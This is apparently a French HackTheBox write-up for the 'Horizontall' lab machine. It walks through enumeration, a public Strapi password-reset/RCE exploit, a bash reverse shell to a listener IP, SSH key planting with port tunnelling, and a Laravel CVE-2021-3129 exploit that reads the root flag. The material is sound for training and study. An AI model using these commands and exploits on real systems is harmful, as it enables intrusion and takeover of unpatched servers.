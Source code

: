 # Horizontall [Linux] Easy

# — 1.Enumeration —

## Nmap

`nmap -A -sS -sV -p- 10.10.11.105`

```bash
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

Quand on se rend sur le port 80 on à une redirectino à horizontall.htb on va changer un paramètre de notre dns avec cette commande :

`echo "10.10.11.105 horizontall.htb" | sudo tee -a /etc/hosts`

## Ffuf

```bash
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
favicon.ico             [Status: 200, Size: 4286, Words: 8, Lines: 1]
img                     [Status: 301, Size: 194, Words: 7, Lines: 8]
index.html              [Status: 200, Size: 901, Words: 43, Lines: 2]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8]
```

## Le Site

Aucun boutton du site ne marche tout peux nous renvoyer su la page d’acceuil on ne peux pas aller dans les dossiers que ffuf à trouver. On peux quand même regarder le js de la page pour trouver un indice. Il y a [app.c68eb462.js](http://horizontall.htb/js/app.c68eb462.js) qui est un code en 1 seul ligne ce qui rend difficille la lecture mais nous pouvons utiliser [https://beautifier.io/](https://beautifier.io/) pour rendre le code plus lisible.

Dans le code de app[.c68eb462.js](http://horizontall.htb/js/app.c68eb462.js) se rend compte qu’on utilise du Vue js c’est d’ailleur le logo du site et on vois dans les methodes  du script qu’on utilise le site 

[](http://api-prod.horizontall.htb/reviews)

![Untitled](Horizontall%20%5BLinux%5D%20Easy%207ea53f92d1db4bca80ec01893b62720a/Untitled.png)

On remodifie notre hosts

`echo "10.10.11.105 api-prod.horizontall.htb" | sudo tee -a /etc/hosts`

![Untitled](Horizontall%20%5BLinux%5D%20Easy%207ea53f92d1db4bca80ec01893b62720a/Untitled%201.png)

Nous sommes donc sur un sous-domaine du site précédent nous pouvons énumerer le site

## Ffuf Le 2

```bash
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
```

On à donc la page admin du CMS qui est strapi et nous pouvons essayer de nous identifier.

# — 2.Exploit —

On trouve avec une recherche google un CVE de Strapi qui est un RCE et nous permet de mettre le mot de passe que nous voulons sur l’admin panel 

On trouve avec un exploit sur exploit-db : [https://www.exploit-db.com/exploits/50239](https://www.exploit-db.com/exploits/50239)

```bash
python3 cmsexploit.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit

[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU0NDQzNTE5LCJleHAiOjE2NTcwMzU1MTl9.a8Os4RNhGakrtQ7jfHb106kAUbzaGehXW0IL-X6AgAg
$> bash -c 'bash -i >& /dev/tcp/10.10.14.16/1234 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

En même temps nous mettons un listener `nc -lvnp 1234`

Nous avons maintenant un accées admin sur le panel du CMS et sur la machine en tant que strapi.

![Untitled](Horizontall%20%5BLinux%5D%20Easy%207ea53f92d1db4bca80ec01893b62720a/Untitled%202.png)

# — 3.Mouvement Latéral —

On va d’abords invoqué tty pour avoir un shell entier :

```bash
script /dev/null -c bash
ctrl-z
stty raw -echo; fg
*Enter deux fois*
```

On peut pas faire de `sudo -l`

On peut aussi déjà accéder à user.txt pour récupérer le flag.

On créé un serveur avec python `python -m http.server 80` et on récupére un linpeas.sh

On trouve des Ports Actif sur la machine et cesport n’avait pa été trouvé par notre scan nmap :

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                                                  
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1704/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Avec ce site [https://www.speedguide.net/port.php?port=3306](https://www.speedguide.net/port.php?port=3306) on peux trouver ce que sont ces ports par défaut selon nmap :

1337 : Nullsoft WASTE encrypted P2P app (Pas certain)

3306 :  mySQL

8000 : Une alternative à http 

- On peux utiliser Curl pour avoir une meilleur idée de ce qu’il y à sur ces ports

- curl 127.0.0.1:1337 Est le sous domaine du site

- curl 127.0.0.1:8000 Est un nouveau sous domaine du site utilisant Laravel

![Untitled](Horizontall%20%5BLinux%5D%20Easy%207ea53f92d1db4bca80ec01893b62720a/Untitled%203.png)

## Accées par SSH

Pour ce que nous voulons faire par la suite nous devons avoir un accées par ssh donc nous allons créé sur notre ordinateur un couple de clé `ssh-keygen -f strapi` copié la clé publique et l’écirire sur la machine adverse dans un nouveau dossier .ssh  un ficher authorized_keys contenant notre clé publique avec la commande `vi authorized_keys`

On peux finalement se connécté avec la commande : `ssh -i strapi [strapi@10.10.11.105](mailto:strapi@10.10.11.105)`

On se créé un tunnel sur le port 8000 :

`ssh -i strapi -L 8000:localhost:8000 strapi@horizontall.htb`

## Troisième Site

Maintenant que nous avons un tunnel nous pouvons aller sur [http://localhost](http://localhost):8000 

![Untitled](Horizontall%20%5BLinux%5D%20Easy%207ea53f92d1db4bca80ec01893b62720a/Untitled%204.png)

## Exploitation Final

Laravel à lui aussi un CVE et un https://github.com/nth347/CVE-2021-3129_exploit qui est un RCE nous permettant d’attraper le dernier flag.

Dernière commande :

`./cve-2021-3129.py [http://localhost:8000](http://localhost:8000/) Monolog/RCE1 'cat /root/root.txt'`

# Notes et Ressources :

[https://www.geeksforgeeks.org/vue-js-methods/](https://www.geeksforgeeks.org/vue-js-methods/)

Ne marche pas sur la machine mais intéressant d’énumérer les sous domaines des le début avec wfuzz :

`wfuzz --hh 194 -u http://horizontall.htb -H "Host: FUZZ.horizontal.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt`

On pouvait au lieu de tester à l’’aveugle le rce trouver la version du cms avec curl :

```
curl http://api-prod.horizontall.htb/admin/strapiVersion
{"strapiVersion":"3.0.0-beta.17.4"}
```